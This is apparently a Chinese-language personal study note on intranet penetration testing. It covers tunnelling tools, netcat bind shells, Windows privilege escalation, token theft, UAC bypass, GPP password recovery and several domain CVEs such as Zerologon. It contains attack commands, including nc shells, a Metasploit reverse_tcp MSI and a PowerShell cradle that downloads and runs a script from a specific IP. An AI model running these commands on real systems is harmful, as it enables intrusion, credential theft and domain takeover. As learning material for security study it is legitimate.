内网学习
转发和代理
端口转发和代理
正向和反向连接
正向连接 攻击主动连接受控机
要求 两机器都有公网ip
问题 1.受防火墙限制 2.存在权限不足问题 3.受控机无公网ip连不了
反向连接 受控机主动反向连接攻击机
好处 ：突破 正向连接的B问题
端口转发和映射
端口转发 一个端口收到的数据-另一个网络端口 端口可以是本机也可以是其他主机
端口映射 把外网主机请求映射到内网主机 使得没有公网ip的内网主机能对外提供服务
并没有严格属于解释 有时一并谈论
SOCKS代理
标准端口1080 有socks4和5两版本
4和5的区别 4只支持tcp 5还支持udp和各种身份验证
内网渗透可以搭建socks代理 与目标内网主机通信
常见转发代理工具
lcx
内网端口转发工具
1 | 一： |
frp
内网穿透 高性能反向代理 支持tcp/udp/http/https等 常用隧道工具 支持搭建socks5代理应用
win和linux双系统 包括 frps frps.ini frpc frpc.ini 服务端客户端程序及配置文件
1 | frps.ini |
nps
外网机器服务端 安装后注意 端口 开放
tcp穿透
socks5 +proxfier
被转发的机器 敲命令 客户端有

主要问题 注意vps端口和安全组 宝塔和云平台都要开
ICMP隧道
在一般通信过程中，如果两台设备需要进行通信，肯定要开放端口，但是ICMP协议就不需要。最常见的ICMP消息为ping命令回复，攻击者可以利用命令行得到比回复更多的ICMP请求。
工具：
icmpsh、PingTunnel、icmptunnel、powershell icmp
icmpsh使用
git clone https://github.com/inquisb/icmpsh.git下载工具pip2 install impacket下载包依赖sysctl -w net.ipv4.icmp_echo_ignore_all=1关闭icmp回应python2 icmpsh_m.py <攻击机IP> <目标机器IP>- 执行结果会在攻击机回连一个shell
PingTunnel使用
局限：中转服务器一定要是Linux
1 | # 安装libpacap环境依赖 |
1 | # 在Linux的 web服务器上操作 |
防御ICMP隧道
- 检测同一来源的ICMP数据包的数量。使用ICMP隧道在短时间产生大量数据包
- 注意那些Payload大于64bit的ICMP数据包
- 寻找响应和请求不一致的数据包
- 检查ICMP数据包的协议标签
IPV6隧道
IPV6隧道就是值通过IPV4隧道传送IPV6数据报文的技术。
工作原理：

- 节点A要想节点B发送IPV6报文，首先需要在节点A和节点B之间建立一条隧道
- A将IPV6报文封装在以节点B的IPV4地址为目的地址、以自己的IPV4地址为源地址的IPV4报文中，并发往IPV4海洋
- 在IPV4海洋中，这个报文和普通报文一样，经过IPV4转发到达节点B
- 节点B接受到之后，接触IPV4封装，取出其中的IPv6报文
绕过原理：
因为现阶段的边界设备，防火墙甚至入侵防御系统还无法识别IPv6的通信数据，而大多数的操作系统支持IPv6。攻击者有时会通过恶意软件来配置允许进行IPv6通信的设备，以避开防火墙和入侵检测系统。及时设备支持IPv6，也有可能无法正确分析封装了IPv6报文的IPv4数据包
工具：
socat、6tunnel、nt6tunnel
防御： 过滤IPv6协议通信
netcat
抓取Banner信息
nc -nv <目标IP> <目标端口>
指定端口的扫描
nc -v <目标IP> <目标端口>nc -vz <目标iP> <端口-端口>（巨慢）
端口监听
nc -lp 9999- 当端口被访问时信息会输出到控制台
文件传输
nc -lvvp 2233 >1.txt监听本地2233，当有数据 输入到 1.txtnc -vn <目标IP> <目标端口> <2.txt把2.txt文件内容传输到目标的指定端口
简易聊天
nc -lp 2233nc -vn <目标IP> <指定端口>
获取shell
正向：(攻击机连接目标机器，目标机器启动监听)
nc -lvvp 2233 -e /bin/shLinuxnc -lvvp 2233 -e C:\windows\system32\cmd.exeWindows
反向：(攻击机开启监听，目标机器使用反弹shell命令进行回连)
HTTP/HTTPS隧道
就是通过上传web上传的脚本文件，将流量转发到内网。
DNS隧道
工作原理
在进行DNS查询时，如果查询的域名不在DNS服务器本机的缓存中，就会互联网进行查询，然后返回结果。如果在互联网上有一台定制的服务器，那么依靠DNS协议即可进行数据包的交换。从DNS协议的角度来看：这样的操作只是在一次次查询某个特定的域名并得到解析结果。
在使用DNS隧道与外部进行通信时，从表面上看没有连接到外网的（内网网关没有转发IP数据包），但实际上，内网的DNS服务器进行了中转操作。
DNS解析配置

第一条A类记录，告诉域名系统，”dns.xxx.com”的IP地址是”121.xxx.xxx.xxx”
第二条NS记录，告诉域名系统，”dns2tcp.xxx.com”的域名由”dns.xxx.com”进行解析。
最后这条”dns2tcp.xxx.com”的DNS就会被”121.xxx.xxx.xxx”的主机(也就是我们的VPS)，给解析掉。
配置完之后，可以ping一下dns.xxx.com，观察是否能ping通。
iodine
- vps 安装 iodine
1 | yum install iodine |
- 在VPS上运行iodine的服务端iodined
1 | iodined -f -c -P husins 192.168.0.1 dns2tcp.xxx.com -DD |
- 在目标主机执行
1 | iodine -f -P h dns2tcp.xxx.com -M 200 |
权限提升
Windows权限描述
User: 普通用户权限，是系统中最安全的权限，因为分配给该组的默认权限不允许成员修改操作系统的设置和用户资料Administrtor: 管理员权限，可以利用Windows的机制将自己提升为system权限，以操作SAM文件等system：系统权限，可以对SAM等敏感文件进行读取，往往需要将Administrator权限提升到System权限才可以对散列值进行dump操作TrustedInstaller: windows 最高权限。对文件系统，即使拥有System权限也无法进行修改，只有拥有TrustedInstall权限的用户才可以修改系统文件
内核提权
原理：程序缓冲区的大小是事先设置好的，如果用户输入的数据的大小超过了缓存区的大小，程序就会溢出，攻击者使用该方法可以绕过系统的所有安全限制，利用该漏洞的关键是目标系统没有及时安装补丁。
windows
whoami /groups获取当前权限的等级systeminfo查看系统补丁wmic qfe get caption,description,hotfixid,installedon-使用wes-ng (Windows Exploit Suggester)

wes sysinfo.txt --impact "Elevation of Privilege"
wes sysinfo.txt --impact "Elevation of Privilege" --exploits-only
- msf
local_exploit_suggester： 提供了各种可用于提权的local exploits，并会基于架构，平台（即运行的操作系统），会话类型和所需默认选项提供建议
enum_patches ：据漏洞编号快速找出系统中缺少的补丁
- sherlock 脚本 https://github.com/rasta-mouse/Sherlock
1 输入Import-Module .\Sherlock.ps1导入脚本
2 输入Find-AllVulns 扫描
系统服务提权
Windows系统服务在操作系统启动时加载和执行，并在后台调用可执行文件。因此，如果一个低权限的用户对此类系统服务调用的可执行文件拥有写权限，就可以将该文件替换成任意可执行文件，并随着系统服务的启动获得系统权限。Windows服务是以System权限运行的，因此，其文件夹、文件和注册表键值都是受强访问控制机制保护的。但是在某些情况下，操作系统中仍然存在一些没有得到有效保护的服务
有以下两种利用方式：
- 服务未运行：攻击者会使用任意服务来替换原来的服务，然后重启服务
- 服务正在运行且无法终止：这种情况符合绝大多数的漏洞利用场景，攻击者会利用DLL劫持并尝试重启服务来提权
攻击手法
PowerUp.ps1脚本的Invoke-Checks模块MSF的service_permissions模块- 该模块使用两种方式获取
system权限：如果meterpreter以管理员权限运行，该模块会尝试创建并运行一个新的服务；如果当前权限不允许创建服务，该模块会判断那些服务的文件或者文件夹存在权限问题，并允许对其劫持。
- 该模块使用两种方式获取
不安全的服务权限
一些以system权限启动的应用，如果让其启动时执行其他程序 就可获得系统权限
AccessChk 枚举主机上存在系统缺陷的系统服务
各种方式查找到后使用sc config xxxx binpath（指定的二进制文件路径）= "cmd.exe(要改的高权系统程序)" /k "C:\Users\Public\reverse_tcp.exe"(需要系统权限的马什么的)等号后必须有一个空格
如果有重启服务权限可以直接sc stop <service> sc start <service>重启如果 没权限 就重启开机吧
服务注册表权限脆弱
注册表ACL配置错误 低权用户对服务的注册表有写入权限 通过修改注册表更改服务配置
accesschk.exe /acceptula -uvwqk "Authenticated Users" HKLM\SYSTEM\CurrentControlSet\Services 枚举 Authenticated Users用户组具有写入权限的服务注册表
以下命令将xyz服务注册表种的ImagePath指向预先上传的攻击载荷
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\xyz /v Imagepath /t
REG_EXPAND_SZ /d "cmd.exe /k C:\Users\Public\reverse_tcp.exe" /f
检测用户对服务有无重启权限
accesschk.exe /acceptula -ucqv "Authenticated Users" xyz
服务路径权限可控
主机用户存在错误配置或操作 使得低权用户对其调用的二进制文件或所在目录有写入权限 可以将文件换成攻击载荷
查看InexeSvc服务的二进制文件所在目录是否有写入权限
accesschk.exe /acceptula -quv "C:\Program Files\Insecure Executables\"
如果有 可以备份原来二进制文件 并上传同名的 攻击载荷 随着服务重启 继承系统权限
未引用服务路径
Windows文件解析特性 启动执行二进制文件路径种包含空格 未能有效包含在引号里
执行命令 枚举目标主机所有该漏洞
wmic service get DisplayName, PathName, StartMode|findstr /i /v "C:\Windows\\" |findstr/i /v """

结果知 用accesschk检查受影响目录 发现有当前用户对目录有完全控制权限

此时可以想目录上传一个 Sub.exe载荷 服务重启后 检查到 、/xxx/xxx/Sub.exe会 以system权限执行
为避免漏洞 使用sc创建系统服务 应有效对存在空格的服务路径使用引号包裹
examplesc create TestSvc binpath= "\"C"\Program Files\Sub Dir\Program Name.exe\""
- icacls “C:\program Files\program folder”` 查看文件权限
1 | Everyone: 用户对这个文件夹有完全控制权限 |
- 可以使用
MSF的Windows Service Trusted Path Privilege Escalation模块
自动安装配置文件
网络管理员在内网中给多台机器配置同一个环境时，通常会使用脚本批量部署，在这一过程中，会使用安装配置文件。这些文件包含所有的安装配置信息，其中的一些还有可能包含本地管理员账号和密码等信息。这些文件包含但不限于：
- C:\sysprep.inf
- C:\sysprep\sysprep.inf
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml
- C:\unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattended.xml
- C:\Windows\Panther\Unattend\Unattended.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\System32\Sysprep\unattend.xml
- C:\Windows\System32\Sysprep\Panther\unattend.xml
里面大概率包含明文密码或者经过Base64加密的密码
MSF的post/windwos/gather/enum_unattend模块集成
计划任务
schtasks /query /fo LIST /v查看计算机所有的计划任务- 如果攻击者对以高权限运行的任务所在的目录具有写权限，就可以使用恶意程序覆盖原来的程序。这样在计划任务下次执行时，就会以高权限来运行恶意程序
PowerUp
https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
暂时不会用 这玩意要和powershell一块用
MSI安装策略提权
配置策略时 启用了永远以高特权进行安装（AlwaysInstallElevated 默认是禁用）使得任何权限用户都可以使用SYSTEM权限安装MSI程序 MSI=Microsoft Installer 微软格式应用程序安装包
在“运行”设置框中输入“gpedit.msc”，打开组策略编辑器
组策略——计算机配置——管理模板——Windows 组件——Windows Installer —— 永远以高特权进行安装
组策略——用户配置——管理模板——Windows 组件——Windows Installer —— 永远以高特权进行安装
确定是否存在
注册表以下两位置 键值为 1
1 | HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\windows\Installer\AlwaysInstallElevated |
测试命令
1 | reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated |

如果没配置过 就是 
创建恶意MSI并安装
使用 msf msfconsole - p windows/meterpreter/reverse_tcp LHOST=4444 -f msi -o reverse_tcp.msi
msiexec /q /i reverse_tcp.msi
执行MSI文件命令
msiexec /q /i UserAdd.msi/quite: 在安装过程中禁止像用户发送消息/qn: 不适用GUI，无GUI模式允许/i: 安装程序 常规安装
工具使用
PowerUp.ps1的RegistryAlwaysInstallElevated和Write-UserAddMSI模块MSF的exploiexploit/windows/local/always_install_elevated模块
防御方法
禁用注册表键AlwaysInstallElevated，就可以组织攻击者通过MSI文件进行提权
访问令牌操作
令牌特点：
- 除非系统重启，这些令牌将持续存在于系统中
- 令牌的最大特点时是随机性和不可预测性
- 伪造令牌攻击的核心是Kerberos协议
令牌类型：
- 授权令牌（Delegation Tokens）：它支持交互式登录，例如远程登录和访问
- 模拟令牌（Impersonation Tokens）：它支持非交互式会话
windows访问控制模型 由访问令牌 和安全描述符两部分组成
访问令牌 登陆验证通过就会创建一个令牌 包括SID和本地安全策略分配给用户和用户属安全组的特权列表 此后每个进程都有此令牌的副本
win中令牌分为主令牌和模拟令牌 主令牌和进程关联
通过操纵访问令牌 使正在运行的进程看起来是其他进程的子进程或属于吉他用户启动的进程 常常使用内置Windows API从指定进程赋值访问令牌 并将得到的访问令牌用于现有进程或生成新进程 达到权限提升并绕过访问控制的目的 成为 令牌窃取
令牌窃取只能在特权用户上下文才能完成 通过令牌创建进程用的CreateProcessWithTokenW和CreateProcessAsUserA两个API分别要求用户有 SeImpersonatePrivilege和SeAssignPrimaryTokenPrivilege/SeIncreaseQuotaPrivilege特权
拥有此2特权的一般为系统管理员 网络服务 和系统服务账户 （如IIS MSSQL等）
令牌窃取
如果已经存在meterpreter shell
1 | usr incognito |
如果目标系统中存在有效的令牌，可以通过Rotten Potato，实现权限提升
1 | upload roottenpotato.exe |
添加域管理员提权
1 | # 前提获得域管理员进程 |
防御方法
- 及时安装补丁
- 对令牌时效性进行限制
- 对令牌采取加密存储和多重验证保护
- 使用加密链路
SSL/TLS传输令牌，以防止中间人窃听
常规令牌窃取
用于将管理员权限提升到SYSTEM、TrustdInstaller等更高的系统权限
incognito.exe 可用于有杀毒、不出网、防火墙限制等无法cs或msf上线情况，但是需要管理员的权限运行
上传到目标主机 incognito.exe list_tokens_u 列举主机上所有访问令牌

incognite.exe excute -c "NT AUTHORITY\SYSTEM" whoami - c参数后为要窃取的令牌 whoami 窃取后要执行的命令
incognito.exe excute -c "HACK-MY\MARCUS" CMD 窃取 Mrcus的访问令牌 实现本地管理员切换到域用户
- msf
他也有incognito模块
- 通过令牌获取 TrustInstaller权限
icacls "C:\Windows\servicing" 查看目录权限 （此目录 即使拥有system权限也不能写入文件）

icacls查看目录权限
Windows从Vistas开始内置TrustedInstaller安全主体 有修改系统文件的权限 用于对系统维护更新 它以一个帐户组的形式出现-NT SERVICE\TrustedInstaller
通常情况下可以通过窃取令牌获取TrustedInstaller权限
TrustedInstaller本身也是一个服务 启动 运行 TrustedInstaller.exe 路径”C:\Windows\serivcing\TrustedInstaller.exe”
拥有者 NT SERVICE\TrustedInstaller 可以窃取此令牌提升至TrustedInstaller权限
1 | sc start TrustedInstaller |
Potato家族提权
通过操纵访问令牌 提升至SYSTEM权限
滥用 SeImpersonatePrivilege和SeAssignPrimaryTokenPrivilege俩也全 将SYSTEM令牌传入函数调用 从而在SYSTEM账户的上下文创建新进程 提升到SYSTEM 如果拿到了IIS等服务的Webshell 或者通过MSSQL服务的xp_cmdshell成功执行系统命令 此时有俩特权 就可以提升到SYSTEM权限
- Rotten Potato烂土豆
1 通过api将一个com加载到本地可控端口 诱骗BITS对象以system账户身份发起NTLM认证
2.借助rpc135端口进行中间人攻击 生成访问令牌
3 通过令牌创建新进程
- Juicy Potato 烂土豆的扩展
不依赖现有的Meterpreter
- PrintSpoofer(Pipe Potato)
- Sweet Potato 甜土豆
集成功能
Bypass UAC
如果计算机的操作系统版本是Windows Vista或者更高，低权限访问敏感文件或者目录，需要经过UAC（User Account Control，用户账户控制）的认证才能进行
UAC简介
UAC是微软为了提高系统安全性引入的技术。UAC要求用户在执行可能影响计算机运行的操作或者在进行可能影响其他用户的设置之前，拥有相应的权限或者管理员密码。
需要UAC的授权才能进行的操作列举：
- 配置
Windows Update - 增加/删除账户
- 更改用户类型
- 更改UAC的设置
- 安装
ActiveX - 安装/卸载程序
- 安装设备驱动程序
- 将文件移动/复制到
Program Files或Windows目录下 - 查看其他用户文件夹
UAC有四种设置：
- 始终通知：这是最严格的设置，每当有程序需要使用高级别的权限是都会提示本地用户
- 仅在程序试图更改我的计算机时通知我：这是UAC的默认设置。当本地Windows程序要使用高级别权限时，不会通知用户。但是，当第三方程序要使用高级别权限时，会提示本地用户
- 仅在程序识图更改我的计算机时通知我（不降低桌面的亮度）：与上一条设置的要求想用，但是提示用户是不降低桌面亮度
- 不提示：当用户为系统管理员时，所有程序都会以最高权限运行
Uer Account Control 用户账户控制 UAC
可以阻止自动安装未授权应用
限制所有用户包括非 RID500的管理员（除了Administrator外）的操作
如果可以绕过 UAC可以使非RID500的管理员账户可以不如要用户批准直接使用管理员访问令牌，获取全部管理权限
本质是绕过UAC的权限保护 本质上不能看做真正的提权
UAC白名单
设置了白名单 不再询问 可以对这些白名单中的程序进行DLL劫持 注入或注册表劫持
寻找白名单程序 Sigcheck Strings 白名单程序特性 Manifest数据库中 autoElevate属性为true
找到白名单程序A ->使用Process Monitor监控进程操作行为->修改启动可以执行文件键值->再次执行该程序A
DLL劫持
很多程序不是完整的 被分割成dll文件 启动时有特定顺序搜索待加载dll 将同名恶意dll但放到合法dll之间的搜索位置 就会加载恶意dll
模拟可信任目录
根据可信任目录创建一个包含尾随空格的模拟可信任目录 将一个白名单程序复制到模拟可信任目录中 配合dll劫持绕过
相关辅助工具
UACME
AKAGI.EXE [KEY] [PARAM]
key指定绕过方法变好 param 指定绕过后的命令
msf
bypassuac模块
使用MSF，当已经获得一个meterpreter时，运行exploit/windows/local/bypassuac，会获得一个新的meterpreter shell，这时已经绕过了UAC，获得了System权限，使用该模块必须，当前用户在管理员组，且UAC必须是默认设置
该模块会在目标机器创建多个文件，会被杀软识别
RunAS模块
使用exploit/windwos/local/ask模块，创建一个可执行文件（需要免杀处理），在目标机器会运行一个发起提升权限请求的程序，提示用户是否要继续运行，如果选择是，就会返回一个高权限的meterpreter shell
防御方法
- 不让内部机器使用者拥有本地管理员权限
- 设置UAC为“始终通知”
用户凭据操作
枚举Unattended凭据
无人值守Unattended 允许自动安装
残留配置文件 可能包含本地管理员用户名密码
- C:\sysprep.inf
- C:\sysprep\sysprep.inf
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml
- C:\unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattended.xml
- C:\Windows\Panther\Unattend\Unattended.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\System32\Sysprep\unattend.xml
- C:\Windows\System32\Sysprep\Panther\unattend.xml
里面大概率包含明文密码或者经过Base64加密的密码
MSF的post/windwos/gather/enum_unattend模块集成自动检索
组策略首选项提权
简介
SYSVOL是活动目录里面的一个用于存储域供供文件服务器副本的共享文件夹，在域中的所有域控制器之间进行复制。它是在安装活跃目录时自动创建的，主要用于存放登录脚本，组策略数据及其他域控制器需要的域信息。SYSVOL在所有经过身份验证的域用户或者域信任用户具有读权限的活动目录的域范围内共享。整个SYSVOL目录在所有的域控制器中式自动同步共享的，所有域策略均存放在C:\windwos\SYSVOL\DOMAIN\Policies\目录中
通过组策略统一修改密码，虽然强度有所提高，但所有机器的本地管理员密码是相同的。攻击者获得了一台机器的本地管理员面面，就相当于获得了整个域中所有机器的本地管理员密码
常见的组策略首选项：
- 映射驱动器（Drives.xml）
- 创建本地用户
- 数据源（DataSources.xml）
- 打印机配置（Printers.xml）
- 创建/更新服务（Services.xml）
- 计划任务（ScheduledTasks.xml）
获取组策略的凭据
管理员在域中新建一个组策略后，操作系统会自动在SYSVOL共享目录中生成一个XML文件，该文件中保存了改组策略更新后的密码。改密码使用AES-256加密算法。但是，2012年微软在官方网站上公布了该密码的私钥，导致保存在XML文件中的密码的安全性大大降低。任何域用户和域信任用户均可对该共享目标进行访问，这就意味着，任何用户都可以访问保存在XML文件中的密码并将其破解，从而控制域中所有使用该账号/密码的本地管理员计算机。在SYSVOL中搜素，可以找到包含cpassword的XML文件
查找cpassword文件
- 手动查找SYSVOL文件夹
- 使用
PowerSploit中的Get-GPPPassword.ps1 - 使用
MSF中的post/windows/gather/credentials/gpp模块
防御方式
- 安装
KB2962486补丁，使用该补丁将不会将密码保存在组策略首选项中 - 设置共享文件夹SYSVOL的访问权限
- 将cpassword文件删除
- 不要将密码放在低权限能够访问的文件中
- 修改域中机器密码使用LAPS
HiveNightmare
CVE-2021-36934
- 是否存在
icacls “C:\Windows\System32\config\SAM”
输出 “BUILTIN\Users:(I)(RX)”则表示易受攻击
将编译好的exe上传到主机 直接运行就可以将 SAM、SYSTEM、SECURITY文件转储到当前目录
三个文件复制到本地 使用Impacket 中的secretsdump.py导出用户哈希
之后可以爆破哈希 或者 哈希传递
Zerologin域内提权
cve-2020-1472 Netlogon远程协议特权提升漏洞
调用Netlogon中的RPC函数重置域控密码 重置的是域控机器账户的密码
机器账户不允许登陆 但默认有DCSync权限 可以导出域管哈希 从何获取域控权限
1 | 1.充值域控密码 |
Print Spooler
系统打印后台处理服务 默认开启
PrintDemon
CVE-2020-1048
1 | 1 .MSF生成攻击载荷 并base64编码 |
PrintNightmare
CVE-2021-1675 提权
CVE-2021-34527 rce
Nopac域内提权
kerberos协议有关 待学习
Certifred域内提权
CVE-2022-26923
原理 域内主机绕过限制 安装AD 成为DC 获取域控最高权限
无凭证条件下的权限获取
假设目标网络DNS服务器因故障无法服务可以使用Responder工具进行监听，它能够抓取网络中所有的LLMNR和NBT-NS请求并进行响应，获取最初的账户凭证
它还可以利用内置SMB、MSSQL、HTTP、HTTPS、LDAP、DNS、WPAD、FTP、POP3、LMAP、SMTP等认证服务器，收集目标计算机的凭证，还可以通过Multi-Relay功能在目标系统中执行命令
Windows Powershell 基础
可以把PowerShell 当作是CMD的扩展，它可以执行一些脚本文件，极大的便利了内网渗透
优点：
在Windows 7 以上的版本默认安装
脚本可以在内存中运行，无需写入内存
几乎不会触发杀毒软件
可以远程执行
目前很多工具多是基于PowerShell开发的
使Windows脚本执行变得更加容易
cmd.exe通常会被阻止，但是PowerShell的运行通常不会被阻止可用于管理活跃目录
Windows版本对应的版本：
| win版本 | PowerShell版本 | 是否可以升级 |
|---|---|---|
| win7/winServer 2008 | 2.0 | 3.0 / 4.0 |
| win8 / winServer 2021 | 3.0 | 4.0 |
| win8.1 / winServer2012R2 | 4.0 | X |
Get-Host或者$PSVersionTable.PSVERSION查看版本


基本概念
Powershell脚本文件的后缀是.ps1
执行策略
为了防止恶意脚本执行，提供了执行策略，默认策略是”不能运行”
使用
Get-ExecutionPolicy查看执行策略Restricted：脚本不能执行（默认设置）RemoteSigned:在本地创建的脚本可以运行，网上下载的脚本不能运行（拥有数字签名的证书除外）AllSigned:仅当脚本有受信任的发布者签名时才能运行Unrestricted:允许所有脚本运行

使用
Set-ExecutionPolicy <policy name>设置执行策略（需要管理员权限）
常用命令
1 | New-Item <目录名> -type directory # 新建目录 |
常用参数
1 | -exec bypass(-ExecutionPolicy Bypass): 绕过安全执行策略。 |
1 | $fileContent = "<需要编码的内容>" |
powerup
正常导入ps1需要system 有system还提nml
所以使用下面的远程调用绕过
1 | powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://140.246.211.51:81/ps/PowerUp/PowerUp.ps1');Invoke-AllChecks" |
